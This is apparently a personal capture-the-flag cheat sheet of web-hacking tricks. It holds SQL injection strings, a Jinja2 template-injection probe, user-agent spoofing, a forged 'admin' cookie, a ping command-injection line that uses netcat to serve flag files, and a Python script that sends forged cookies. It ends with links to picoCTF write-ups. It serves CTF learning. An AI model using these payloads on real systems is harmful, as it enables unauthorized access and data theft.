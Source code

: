 # Ch34tsh33t
My CheatSheet


*Always check the Http method needed. Below are the list of HTTP Methods*
-POST
-GET
-PUT
-PATCH
-DELETE

*Using Google as secret-agent*
headers = {
	'User-Agent': 'Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)'
}

*If No Login was provided but Admin login is available*
Try using cookie "admin" set it to "true"

*SQL Injection*
' OR '1'='1' --
' LIKE '%'; --
' UNION SELECT * FROM answers WHERE answer GLOB '<input>*'; --

*Testing for Flask framework (Jinja2)*
{{1+1}} -> {{config.items()}}

*Exploiting Ping command via WebApp*
8.8.8.8; cat *flag* | nc -lp 54433 -> nc targetip 54433

*Python Code To get http request*

#!/usr/bin/python

import requests
import re

params = {'user': 'test', 'password': 'test', 'submit': 'Sign In'}
jar = {'admin': 'True', 'password': '', 'username': ''}

r = requests.get('{TARGET IP}', data=params, cookies=jar)
source = r.text
print re.findall(r'(flag\{.+\})', source)[0]

*OTHERS*

*Forensics*

*Bitflip*
https://wannabyte.xyz/2018/10/picoctf-secure-logon/
https://security.stackexchange.com/questions/177614/how-difficult-is-it-to-modify-aes-ciphertext-in-a-meaningful-way

*General Skills*
https://tcode2k16.github.io/blog/posts/picoctf-2019-writeup/general-skills/
https://tcode2k16.github.io/blog/posts/picoctf-2018-writeup/general-skills/
